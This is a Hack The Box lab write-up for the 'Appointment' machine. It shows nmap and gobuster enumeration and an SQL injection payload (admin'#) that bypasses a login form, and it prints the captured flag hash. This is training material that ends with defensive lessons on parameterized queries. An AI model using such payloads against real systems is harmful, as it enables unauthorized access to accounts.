






# Appointment — HackTheBox Write-up

**Difficulty:** Easy
**OS:** Linux
**Date completed:** August 16, 2026

---

## Overview

Appointment is an easy-difficulty Linux machine from Hack The Box that focuses on basic web application enumeration and SQL injection. The path involves fingerprinting a single web service, enumerating its structure, and exploiting an unsanitized login form to bypass authentication entirely — no shell or privilege escalation required to complete the objective.

## Recon

### Environment Setup

Connected to the HTB VPN network before starting enumeration.




### Connectivity check and Nmap

```
ping -c 4 10.129.70.114
```

Confirmed the host was up and reachable before scanning.

```
nmap -sC -sV 10.129.70.114
```

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Login
```



Only one port open: 80/tcp, running Apache 2.4.38 on Debian. The `http-title` field flagged a page titled "Login," which immediately narrowed the scope — the web application itself was the only attack surface on this box.

### Enumeration

#### HTTP — Port 80

Browsing to the site confirmed a login form as the landing page.



```
gobuster dir -u http://10.129.70.114 -w /usr/share/wordlists/dirb/common.txt
```

```
/.htpasswd            (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/css                  (Status: 301) [Size: 312] [--> http://10.129.70.114/css/]
/fonts                (Status: 301) [Size: 314] [--> http://10.129.70.114/fonts/]
/images               (Status: 301) [Size: 315] [--> http://10.129.70.114/images/]
/index.php            (Status: 200) [Size: 4896]
/js                   (Status: 301) [Size: 311] [--> http://10.129.70.114/js/]
/server-status        (Status: 403) [Size: 278]
/vendor               (Status: 301) [Size: 315] [--> http://10.129.70.114/vendor/]
```



Gobuster didn't turn up anything beyond standard framework directories (`css`, `js`, `fonts`, `vendor`) and `index.php`, which matched the login page found by nmap's `http-title`. With no other exposed pages or admin panels, the login form itself became the primary target.

## Foothold

The login form was vulnerable to SQL injection because user input was concatenated directly into the backend SQL query without sanitization or parameterization.

**Payload used in the username field (password field left as anything):**

```sql
admin'#
```

The single quote (`'`) closed the string context of the intended query, and the `#` character commented out everything that followed — including the password check. Effectively, the query became "log in as `admin`, ignore the rest," which authenticated the session without ever validating a real password.

## Privilege Escalation

Not applicable — the machine's objective was completed entirely through the SQL injection in the web login form. No system shell or further escalation was required to capture the flag.

## Flag

The authentication bypass granted access to the application, which revealed the flag directly.

**Flag:** `e3d0796d002a446c0e622226f42e9672`



## Vulnerabilities Summary

| Category | Vulnerability | Why It Mattered |
|---|---|---|
| Injection | SQL Injection in login form | Allowed full authentication bypass without knowing the administrator's password |
| Input validation | Unsanitized/unparameterized user input | Root cause that made the injection possible in the first place |

## Lessons Learned / Takeaways

- Practiced basic web enumeration workflow combining Nmap service detection with Gobuster directory brute-forcing.
- Reinforced how SQL comment syntax (`#`, `--`) can be abused to truncate a query and skip validation logic entirely.
- Saw firsthand how a single unsanitized input field can fully bypass authentication — no need for a "clever" exploit chain when the basics aren't covered.
- Reinforced why parameterized queries (prepared statements) aren't optional in any application handling user input.

## References

- [Hack The Box — Appointment](https://app.hackthebox.com/machines/Appointment)
- [OWASP — SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [OWASP Top 10 — A03:2021 Injection](https://owasp.org/Top10/A03_2021-Injection/)
